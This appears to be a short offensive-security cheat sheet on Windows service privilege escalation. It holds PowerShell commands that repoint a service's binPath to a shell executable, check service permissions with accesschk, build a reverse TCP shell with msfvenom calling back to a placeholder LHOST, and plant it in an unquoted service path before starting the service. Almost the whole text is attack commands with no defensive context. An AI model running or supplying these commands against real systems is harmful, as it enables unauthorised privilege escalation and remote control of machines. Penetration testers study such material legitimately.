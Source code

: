 ## Windows services
```powershell

sc.exe config VMTools binPath="c:\Users\myuser\Documents\shell.exe"
sc.exe stop VMTools
sc.exe start VMTools

```

### Insecure Service Permissions
```powershell

accesschk64.exe /accepteula -uwcqv daclsvc
accesschk64.exe /accepteula -uwqd "C:\Program Files\Unquoted Path Service\"
msfvenom -p windows/x64_shell_reverse_tcp LHOST=IP LPORT=443 -f exe > common.exe
copy c:\users\myusers\common.exe "C:\Program Files\Unquoted Path Service\common.exe"
sc.exe start  unquotedSVC 

```
